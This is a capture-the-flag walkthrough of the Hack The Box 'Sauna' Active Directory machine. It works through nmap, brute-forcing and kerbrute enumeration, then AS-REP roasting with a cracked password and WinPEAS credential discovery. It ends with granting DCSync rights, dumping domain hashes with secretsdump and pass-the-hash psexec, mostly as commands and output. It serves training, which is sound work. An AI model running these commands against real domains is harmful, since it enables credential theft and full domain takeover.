






### Nmap scan:
```
# Nmap 7.93 scan initiated Thu Jan 19 22:42:55 2023 as: nmap -sC -sV -p- -vv -Pn -oA full 10.10.10.175
Nmap scan report for 10.10.10.175
Host is up, received user-set (0.078s latency).
Scanned at 2023-01-19 22:42:55 EST for 241s
Not shown: 65516 filtered tcp ports (no-response), 1 filtered tcp ports (host-unreach)
PORT      STATE SERVICE       REASON          VERSION
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-01-20 10:45:26Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49696/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-01-20T10:46:17
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35558/tcp): CLEAN (Timeout)
|   Check 2 (port 46361/tcp): CLEAN (Timeout)
|   Check 3 (port 21084/udp): CLEAN (Timeout)
|   Check 4 (port 57297/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 7h00m00s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 19 22:46:56 2023 -- 1 IP address (1 host up) scanned in 241.31 seconds
```

I started with port 80, and saw this website: </br>


Nothing interesting caught my eye, On the ```About Us``` section, there’s a list of the team members:


I created a userlist with this names and I also used cewl to create a wordlist made of random names on the website: ```cewl http://10.10.10.175 > wordlist.txt``` </br>
I added the team members to this list, and tried to bruteforce using crackmapexec:  </br>
```crackmapexec smb 10.10.10.175 wordlist.txt -p wordlist.txt``` </br>
```crackmapexec smb 10.10.10.175 wordlist.txt -p /usr/share/wordlists/rockyou.txt``` </br>
I also ran a gobuster fuzzing scan: ```gobuster dir --url http://10.10.10.175/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster_fuzzing.txt -t 30 -x .php,.html,.txt,.asp,.aspx``` </br>
But eventually I didn't get any useful results, I also tried to enumerate SMB, LDAP and used rpcclient but couldn't find anything. </br>
In this case, I could try and bruteforce usernames using [Kerbrute](https://github.com/ropnop/kerbrute) tool: </br>
**Kerbrute:** </br>
A tool to quickly bruteforce and enumerate valid Active Directory accounts through Kerberos Pre-Authentication. </br>

```
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175

[+] VALID USERNAME:       administrator@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME:       Administrator@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME:       Fsmith@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME:       sauna@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME:       FSmith@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME:       FSMITH@EGOTISTICAL-BANK.LOCAL
```

I added all of this users to a file called ```users.txt```  and decided to try **AS-REP Roasting**: </br>
AS-REP roasting is a technique in which the password can be retrieved because the 'Do not require Kerberos preauthentication property' is enabled, or kerberos preauthentication is disabled. An attacker can skip the first step of authentication and request a TGT for this user, which can then be cracked offline. </br>
```
for user in $(cat users.txt); do GetNPUsers.py -no-pass -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/${user} | grep -v Impacket; done
[*] Getting TGT for hsmith
[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:2cb3db2fb52309e2fb1345d12eb8b1b2$19132dc2bcc29b3eaa9dbf71ef3dde81db9f94fcb9936c90cb8e4c8b7b1a743bccccdebd33cbdd9c486911d5429bfb0a28747a3b21ce90a9981c4eeab1dd0d3156d9ac3f4d5f6cca43f09152679333a82a5b01b06df69fb6ade1219a3c644089e92960d0aeae42fe035af1ea820455ff255e513969e46a08bdd4628616104653641de8645b75cd438eb9e523503b7a45ed08830ecc3e4138b7874bb106606821ac0c56e99b4468666e2d796cb1e4c469470761801ed682fef3ea0cde572afdf01375873f27db1eda77aa7eb39c52b1190635af2c8ed4ece00d2f5ebb7cd9705493df53e33cbd774f05a9accda2a288162f3ac186b89a5e0d788c88f66e76985a

[*] Getting TGT for svc_loanmgr
[-] User svc_loanmgr doesn't have UF_DONT_REQUIRE_PREAUTH set
```

**Crack fsmith Hash:** </br>
I cracked fsmith hash with hashcat: </br>
```
hashcat -m 18200 hash.txt rockyou.txt

Result:
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:7cdc7d6b359260dc198d488faf5b20be$3fe2bde745fc9cbc9ec5335aaf73c86a9e0ed76e7aca549e434c83ec3b0721892bda8e566f366883b02e5cebbdef5e0b921e06b9b676a2e1368a1ca518ec23c196b04d9af846689c44e9bb323e256be5b65452545e8a8e7a0e638e162b9de5cf17ebb40b0edcd43c8ba78d5e5532973a56efa5c0ca57f5f49e5b60b9d96d6a9fa2fb9fed5372b44daab24cf0d9062649483ff612ac3730cb8d02b3e88dd0910187f3ea287bed5c7a0eab76f70cf597bed3ca258f9837785e0fdb8cc6d501f64c5296b59861b465adf6fa29b6421de05491e9f3a08835c3783b66e6b654a98d8a45122e32c1dc9795bfae1688086dbe498421235056829f318e73377c9783c5ee:Thestrokes23
```

and since WinRM port is open on the machine, I connected with Evil-Winrm:
```
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

### Shell as svc_loanmgr:

**Enumeration:**
PowerView enumeration: </br>
```
Get-NetDomain
Forest                  : EGOTISTICAL-BANK.LOCAL
DomainControllers       : {SAUNA.EGOTISTICAL-BANK.LOCAL}

get-domainsid
S-1-5-21-2966785786-3096785034-1186376766


Get-NetUser | select samaccountname

Administrator
Guest
krbtgt
HSmith
FSmith
svc_loanmgr

Invoke-ACLScanner -ResolveGUIDs | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl


IdentityReference     : EGOTISTICALBANK\svc_loanmgr
ObjectDN              : DC=EGOTISTICAL-BANK,DC=LOCAL
ActiveDirectoryRights : ExtendedRight

IdentityReference     : EGOTISTICALBANK\svc_loanmgr
ObjectDN              : DC=EGOTISTICAL-BANK,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
```
It looked like svc_loanmgr could use DCSync for privilege escalation, but I couldn't find any leads on how to privesc to this user, so I decided to run [WinPEAS](https://github.com/carlospolop/PEASS-ng/releases/tag/20230122) script:
```
Attacker Machine:
smbserver.py -smb2support kali .

Victim Machine:
copy \\10.10.14.34\kali\winPEASany.exe
```
Looking through the result, this looked interesting:
```
  [+] Looking for AutoLogon credentials(T1012)
Some AutoLogon credentials were found!!
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!     
```

I assumed svc_loanmanager was actually svc_loanmgr since there is no such user as svc_loanmanager. </br>
I tried logging in using evil-winrm: </br>
```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```
And it worked! </br>


# Privilege Escalation

I used both BloodHound and PowerView to enumerate misconfigured ACLs, and it seemed that svc_loanmgr had privileges to execute a DCSync attack.
```
Kali Machine:
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
smbserver.py -smb2support kali .

On another tab: neo4j console


Victim Machine:
copy \\10.10.14.34\kali\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod all -Verbose
copy 20230122022803_BloodHound.zip \\10.10.14.34\kali
```





**DCSync Attack:** </br>
In a DCSync attack, we impersonate a DC to retrieve the passwords via domain replication. For this we need certain rights on the domain controller. </br>
```
$pass = convertto-securestring 'Moneymakestheworldgoround!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('EGOTISTICAL-BANK.LOCAL\svc_loanmgr', $pass)
. .\powerview.ps1
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=EGOTISTICAL-BANK,DC=LOCAL" -PrincipalIdentity svc_loanmgr -Rights DCSync -Verbose
```

**Administrator Hash Dump:** </br>
```
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:25983538206075b6860a3184b8cc9987:::
```

**PsExec:** </br>
```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.10.175.....
[*] Found writable share ADMIN$
[*] Uploading file PjLBIvgs.exe
[*] Opening SVCManager on 10.10.10.175.....
[*] Creating service JcmH on 10.10.10.175.....
[*] Starting service JcmH.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.973]
(c) 2018 Microsoft Corporation. All rights reserved.
```

